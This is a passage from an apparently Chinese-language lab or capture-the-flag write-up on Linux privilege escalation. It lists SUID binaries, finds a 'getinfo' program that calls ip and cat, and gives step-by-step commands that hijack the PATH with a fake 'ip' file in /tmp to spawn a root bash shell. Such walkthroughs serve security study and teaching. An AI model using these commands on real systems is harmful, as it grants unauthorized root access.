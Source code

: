    
find / -perm -u=s -type f 2>/dev/null  
      
  
发现getinfo  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZV4EVeMOxlJZvAkoqsLKKtU3WK68ibM9UfReib0fO1EchRyfr8J5Y2zQw/640?wx_fmt=png "")  
  
            
  
            
  
执行了 ip addr, cat /etc/hosts, uname -a  
  
可以修改其中一个命令即可获得root权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZUZRrgFDGBPWsGmHMJFGtiaiaXibFI5I3kFXT3EeS8Wyz0BPpTeeiapH0lQ/640?wx_fmt=png "")  
  
            
  
      
  
环境变量命令劫持提权  
  
大概的原理就是 执行系统命令所以我们可以自行编写一个同名文件，  
            
  
比如说cat，因为我们猜测getinfo中使用了cat命令，如若我们可以添加环境变量，getinfo在调用命令时首先检索环境变量就会调用到我们伪造的cat，执行我们想要的命令，来达到提权的效果，即使用环境变量进行命令劫持提权  
            
  
              
  
              
  
因此，在这种情况下，我们可以在环境变量 PATH 中提供一个目录 (/tmp)，并创建一  
            
  
个 ip 或者 cat 文件，用于劫持命令，执行我们自定义的二进制文件就可以提权：  
            
  
export PATH=/tmp/:$PATH  
       
//把/tmp路径加入到系统路径中。  
            
  
cd /tmp  
             
             
             
             
             
             
            
  
echo '/bin/bash' > ip  
             
             
//把/bin/bash写入到ip中。  
            
  
chmod +x ip  
             
             
             
             
             
//增加执行权限  
            
  
/usr/bin/getinfo  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZv1zdL3Anjfwljn1ibYUPnZsiavicibpNYsTMNTia1XYswzQy8ZfDlxvDib2Q/640?wx_fmt=png "")  
  